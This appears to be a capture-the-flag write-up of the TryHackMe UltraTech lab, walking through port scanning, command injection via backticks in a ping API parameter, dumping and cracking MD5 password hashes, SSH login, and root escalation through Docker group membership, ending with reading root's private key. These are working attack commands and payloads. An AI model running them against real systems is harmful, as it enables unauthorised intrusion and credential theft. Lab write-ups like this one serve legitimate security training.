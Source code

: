 ```yaml
---
layout: post
title:  THM UltraTech Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-12 11:00:00 +0300
image:  '/images/thm_ultratech.png'
tags:   [Write-ups, THM, OSCP+, Medium, API, Arbitrary-File-Read, SSH, GTFOBins-Shell, Docker]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [Interacting with the API URL to enumerate files and find hashes on database .db file](#interacting-with-the-api-url-to-enumerate-files-and-find-hashes-on-database-db-files)
  - [Cracking the hashes](#cracking-the-hashes)
  - [Getting SSH access as r00t](#getting-ssh-access-as-r00t)
- [Privilege Escalation](#privilege-escalation)
  - [Using id to find out that r00t is part of docker group](#using-id-to-find-out-that-r00t-is-part-of-docker-group)
  - [Using shell GTFOBins command to escalate privilegesing shell GTFOBins command to escalate privileges](#using-shell-gtfobins-command-to-escalate-privileges)
  - [Reading id_rsa of root](#reading-id_rsa-of-root)

# Enumeration

### Nmap

```shell
# Step 1 - Find active ports
nmap -p- --min-rate 10000 10.10.211.145

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p21,22,8081,31331,37445 10.10.211.145
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 03:31 EST
Nmap scan report for 10.10.211.145
Host is up (0.052s latency).

PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 3.0.3
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open   http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
37445/tcp closed unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.26 seconds
```

Looking at the results of our nmap scan we can see FTP, SSH and two HTTP. Lets enumerate the HTTP ports first.

### Web Enumeration
If we visit port 8081, we will see UltraTech API v0.1.3, meaning that port 8081 is leading to an API:

```shell
http://10.10.211.145:8081/
```

If we visit port 31331, we will see a website of what seems to be a company.

We can also find a robots.txt file leading us to the file /utech_sitemap.txt:

```shell
http://10.10.211.145:31331/robots.txt
```

If we visit /utech_sitemap.txt, we will find more interesting files to visit:

```shell
/
/index.html
/what.html
/partners.html
```

We checked them, but the only interesting one seems to be /partners.html, leading us to a login portal.

If we inspect the source code of /partners.html, we will see this at the bottom:

```shell
<SNIP>
				</form>
				</div>
			</div>
		</div>
	</div>
	<script src='js/app.min.js'></script>
	<script src='js/api.js'></script>
</body>
</html>
```

If we click on js/api.js, it will lead us to another page, where we can see the a line interacting with the API URL:

```shell
<SNIP>
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
<SNIP>
```

Here it is:

```shell
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

# Foothold
### Interacting with the API URL to enumerate files and find hashes on database .db file
It seems like the const url is using ping on an IP, lets try to ping 127.0.0.1, since we know this IP theoretically always exists, and see if we get any answer. We can do that entering the following URL in our web browser:

```shell
http://10.10.211.145:8081/ping?ip=127.0.0.1
```

```shell
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms --- 127.0.0.1 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms
```

It worked! We got a response showing the results of running the ping command.

Now we can try to run other commands like whoami:

```shell
http://10.10.211.145:8081/ping?ip=whoami
```

It didnt work. Lets try to put whoami like 'whoami':

```shell
http://10.10.211.145:8081/ping?ip='whoami'
```

It also didnt work. Lets try something else. Maybe like \`whoami\`?

```shell
10.10.211.145:8081/ping?ip=`whoami`
```

```shell
ping: www: Temporary failure in name resolution
```

It worked! We got www as ping response, which is actually the result of running the whoami command.

Lets enumerate the files on the directory:

```shell
http://10.10.211.145:8081/ping?ip=`ls%20-al`
```

```shell
ping: utech.db.sqlite: Name or service not known 
```

It seems like there is only utech.db.sqlite. Lets check its content:

```shell
http://10.10.211.145:8081/ping?ip=`cat%20utech.db.sqlite`
```

```shell
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```

Nice! We got some hashes:

```shell
Mr00t:f357a0c52799563c7c7b76c1e7543a32
Madmin:0d0ea5111e3c1def594c1684e3b9be84
```

We can suppose that the first user is called "r00t" and the second one "admin".

### Cracking the hashes

Lets try to crack these hashes:

```shell
hashid 'f357a0c52799563c7c7b76c1e7543a32'
```

We got many results of possible valid hash types. Lets suppose its just a normal MD5, which uses -m 0 on hashcat. Now we can try to crack it:

```shell
hashcat -m 0 MrRoot_hash.txt /usr/share/wordlists/rockyou.txt
```

We were able to successfully crack both of them and retrieve the following passwords:

```shell
r00t:n100906
admin:mrsheafy
```

### Getting SSH access as r00t

Lets try to get access using SSH now using r00t as username and the password we just cracked:

```shell
ssh r00t@10.10.211.145
```

Nice! We got access as r00t.

# Privilege Escalation
### Using id to find out that r00t is part of docker group
Using the command id we were able to find out that r00t is part of the docker group:

```shell
id

uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

This may allow us to run docker with privileged permission.

### Using shell GTFOBins command to escalate privileges
Searching for docker on GTFOBins we found the following command:

```shell
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

```shell
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```

It worked! We got a shell as root.

### Reading id_rsa of root
Now we can read the contents of the root id_rsa and answer the last question:

```shell
cat /root/.ssh/id_rsa
```